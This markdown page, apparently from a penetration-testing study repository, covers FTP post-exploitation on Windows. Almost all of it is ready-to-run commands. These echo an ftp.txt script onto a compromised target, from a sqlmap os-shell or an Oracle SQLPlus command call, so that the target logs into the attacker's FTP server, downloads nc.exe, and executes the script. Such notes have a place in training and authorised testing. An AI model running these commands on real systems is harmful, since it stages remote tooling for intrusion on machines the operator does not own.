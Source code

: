 # FTP Post Exploitation Techniques
This module will contain all FTP-related tasks used during post-exploitation.
## Create an FTP Script
The following can be used to create a simplt ftp.txt script to download a file from your server.
```
echo open (YOUR IP) 21 > C:\share\ftp.txt (Writeable Directory on target)
echo USER pwnt >> C:\share\ftp.txt
echo passwd >> C:\share\ftp.txt (Password for your FTP Server)
echo bin >> C:\share\ftp.txt (Sets transfer up for binary files/bytes)
echo GET nc.exe C:\share\nc.exe>> C:\share\ftp.txt
echo bye >> C:\share\ftp.txt
```
### Using SQLMap OS-Shell
This is a script to run as you call FTP from the shell. This is best for non-interactive shells, such as the `os-shell>` provided by `sqlmap` or a PHP shell provided by an SQL Injection exploit. The following example is done from the `--os-shell` provided by `sqlmap`. 

`os-shell> echo open (YOUR IP) 21> C:\share\ftp.txt` *(Writeable Directory on target)*

`os-shell> echo USER pwnt>> C:\share\ftp.txt` 

`os-shell> echo passwd>> C:\share\ftp.txt` *(Password for your FTP Server)*

`os-shell> echo bin>> C:\share\ftp.txt` *(Sets transfer up for binary files/bytes)* 

`os-shell> echo GET nc.exe C:\share\nc.exe>> C:\share\ftp.txt` 

`os-shell> echo bye>> C:\share\ftp.txt` 

To do this from an ORACLE SQLPlus shell, you must include a call to CMD.EXE because `echo` [is a shell built-in command](https://github.com/weaknetlabs/OSCP-tools/blob/master/Post%20Exploitation/Databases/oracle.md) as: 

`exec pwn_cmd('cmd.exe /c echo open 10.11.0.43 > C:\ftp.txt');`

Then, we can run the script with:

`os-shell> ftp -v -n -s:C:\share\ftp.txt` *(PATH to your Script on Target)* 
